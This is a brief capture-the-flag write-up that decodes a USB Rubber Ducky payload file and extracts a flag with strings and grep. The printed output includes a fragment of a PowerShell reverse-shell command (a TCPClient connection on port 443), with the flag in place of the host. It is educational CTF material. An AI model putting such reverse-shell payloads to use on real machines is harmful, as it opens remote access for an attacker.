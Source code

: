 ## Like A Duck In Water (75 Points)

### Problem
```
Hello Agent, We found a flash drive in a safe house belonging to APT403. We have been able to recover the contents of this famous key, which is for you to investigate.

file: inject.bin
```

### Solution
The challenge description gives you a file `inject.bin` and mentions it being the contents of a `famous key`. The only famous flash drive I know is the USB Rubber Ducky, but I don't know how to decode that? But I'm sure there's a website for it.

Sure enough the [Duck Tool Kit](https://ducktoolkit.com/decode) can do it. This gave me an output `duckycode.txt` file.

By running `strings` and `grep`, we get our flag.

```
$ strings duckycode.txt | grep CYBER

... System.Net.Sockets.TCPClient("CYBERTF{D0N4LD_DUC|<}",443);$s ...
```

Flag: `CYBERTF{D0N4LD_DUC|<}`
